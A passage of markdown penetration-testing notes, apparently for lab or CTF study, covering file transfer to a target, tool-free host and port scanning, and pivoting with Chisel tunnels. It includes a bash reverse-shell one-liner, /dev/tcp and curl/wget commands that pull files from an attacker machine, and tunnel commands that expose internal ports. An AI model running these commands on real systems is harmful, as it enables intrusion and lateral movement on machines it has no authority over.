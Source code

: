 **In target**:
 
```bash
curl <ip>:<port>/<file>	
wget http://<ip>:<port>/file
cat < /dev/tcp/<kali ip>/<port> # to get the output of the file
bash -c "cat < /dev/tcp/<kali ip>/<port>" # if the shell isnt bash, try to execute as bash
bash -c "cat < /dev/tcp/<kali ip>/<port> > /dev/shm/LinEnum.sh" # try to send to a file
bash -c "bash -i >& /dev/tcp/<kali ip>/<port> 0>&1" # to get reverse shell
```

- It works like fping -a -g - but sometimes the target does not have this option
```bash
for ip in $(seq 1 5); do ping -c 1 < x.x.x.$ip > /dev/null && echo "Online: x.x.x.$ip"; done
```

- nmap inside machine without nmap
```bash
for port in $(seq 1 65535); do (echo scan > /dev/tcp/<target ip>/$port && echo "Open: $port") 2>/dev/null; done
```


## PIVOT with CHISEL

**IN Kali**:
```bash
chisel server -p 8000 -reverse -v
```

after the handshake with the chisel server:
```bash
		curl localhost:8001
```

**In Target**:

```bash
chisel client <kali ip>:8000 R:8001:<target ip>:80 
# This will open port 8001 of our kali to send data through the tunneling network to port 80 of the target

chisel client <kali ip>:8000 R:8001:127.0.0.1:<target ip>:80 
# Its a bit more secure, cause we only can access though the localhost

chisel client <kali ip>:8000 R:127.0.0.1:6379:<target ip>:6379	
# We can access the 6379 port of the target in our machine by localhost:<port we just opened>

nmap -sT -p <port> -sC -sV localhost -oA nmap/name-u-want
```


We can visualize the open port with netstat:
```bash
netstat -alnp | grep 8001
```

## LOCAL PIVOT
